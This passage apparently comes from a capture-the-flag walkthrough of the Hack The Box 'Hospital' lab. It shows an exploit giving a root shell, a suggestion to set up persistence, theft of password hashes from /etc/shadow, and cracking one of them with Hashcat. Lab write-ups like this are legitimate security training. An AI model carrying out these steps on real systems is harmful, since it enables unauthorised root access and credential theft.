 
Running the exploit, returns a root shell.

```bash
www-data@webserver:/var/www/html$ bash exploit.sh
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@webserver:/var/www/html#

```

> ***Now would be a good time to create persistence with the root user.***

# Lateral movement

## Stealing and cracking hashes

Looking at `/etc/shadow`, there is a hash for the `root` and `drwilliams` accounts.

<img src="/assets/img/2024-hospital/hashes-found.png" alt="hashes-found.png" class="auto-resize">

Stealing the hashes and running them through Hashcat cracks the `drwilliams` one.

```bash
┌──(kali㉿kali)-[~/Documents/htb-machines/hospital/credentials]
└─$ hashcat hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode
$6$uWBSeTcoXXT<SNIP>

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: $6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz...W192y/
Time.Started.....: Sun Apr  7 22:04:47 2024 (1 min, 3 secs)
Time.Estimated...: Sun Apr  7 22:05:50 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     3366 H/s (3.58ms) @ Accel:1024 Loops:64 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 215040/14344385 (1.50%)
Rejected.........: 0/215040 (0.00%)
Restore.Point....: 214016/14344385 (1.49%)
```